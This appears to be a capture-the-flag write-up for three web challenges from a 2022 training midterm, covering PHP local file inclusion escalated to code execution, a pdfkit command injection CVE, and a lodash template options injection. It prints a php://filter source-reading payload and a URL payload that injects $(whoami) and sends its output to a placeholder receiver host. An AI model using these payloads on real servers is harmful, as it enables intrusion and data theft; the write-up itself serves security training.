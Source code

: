 # scist-2022-midterm

## Web

### Box

> Hint: `http://{HOST}//var/www/html/get.php`
>
> Vulnerabilities: Info Leak + LFI to RCE 

Access the `/Dockerfile` hint tab, and we can find that the Apache rewrite module is enabled, and some lines are commented out, which makes `/.htaccess`  readable.

We can see that every path is rewritten to `index.php`, and a hint on CTFd shows that we can arbitrarily include any file.

Using the PHP wrapper, we can read the source code.
`/php://filter/convert.base64-encode/resource=/var/www/html/index.php` 

To achieve RCE and get the flag, we can use one of the following methods:

- session.upload_progress
  https://blog.orange.tw/2018/10/
- PHP_INCLUDE_TO_SHELL_CHAR_DICT
  https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT
- pearcmd.php
  https://github.com/w181496/Web-CTF-Cheatsheet#pear


### PDF Generator

> Hint: `http://{HOST}/Gemfile`
> 
> Vulnerabilities: command injection CVE

The source code reveals that this is a Ruby application.
By accessing `/Gemfile`, we can view the package version.

We can see that the application is using `pdfkit`  with a version that is vulnerable to a command injection CVE.
`gem 'pdfkit', '< 0.8.7.2'`

To exploit this vulnerability, we can use the following technique described in [pdfkit/pdfkit#517](https://github.com/pdfkit/pdfkit/issues/517):

Use a URL that contains a command injection payload, for example: `http://{HOST}/pdf?url=http://{RECEIVER}/$(whoami)`.

By injecting a command into the `url` parameter and passing it to the `pdf` endpoint, we can execute arbitrary commands on the server and obtain the flag.

### Template

> Vulnerabilities: options injection CVE

The source code reveals that this is a Node.js application. By accessing `/leak/package.json` and `/leak/package-lock.json`, we can retrieve the package information.

By running the `npm audit` command, we can identify any vulnerabilities in the packages used by the application. In this case, we have found a high-severity vulnerability in `lodash` with a CVE for options injection.
https://github.com/advisories/GHSA-35jh-r3h4-6jhm

By exploiting this vulnerability, an attacker could inject malicious options to the `_.template` method of the `lodash` package and execute arbitrary Node.js code on the server.

